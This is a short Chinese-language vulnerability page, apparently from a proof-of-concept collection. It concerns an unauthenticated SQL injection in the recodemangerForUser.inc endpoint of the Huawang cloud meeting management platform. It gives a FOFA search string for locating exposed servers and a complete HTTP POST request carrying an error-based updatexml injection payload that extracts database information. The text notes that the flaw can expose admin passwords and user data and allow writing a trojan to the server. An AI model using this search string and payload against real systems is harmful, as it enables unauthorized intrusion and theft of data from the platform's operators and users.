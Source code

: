 # 华望云会议管理平台recodemangerForUser.inc存在SQL注入漏洞

华望云会议管理平台 `recodemangerForUser.inc` 接口处存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```javascript
title="华望云会议管理平台"
```

## poc

```javascript
POST /page/recodemangerForUser.inc?search=1%25'+and+1%3d(updatexml(0x7e,concat(1,(select+user())),1))+and+'%25%25'+like+'&params[]=nName&params[]=confName&params[]=displayName&params[]=status&selectTime=1 HTTP/1.1
Host: 
Cookie: uid=112; JSESSIONID=8E8A139355E2047CEAC6B307396968A8; languageGlobal=1
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
```

![93b1d1d9d0b14cf1b9ddedc313f2fa8d.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409132244574.png)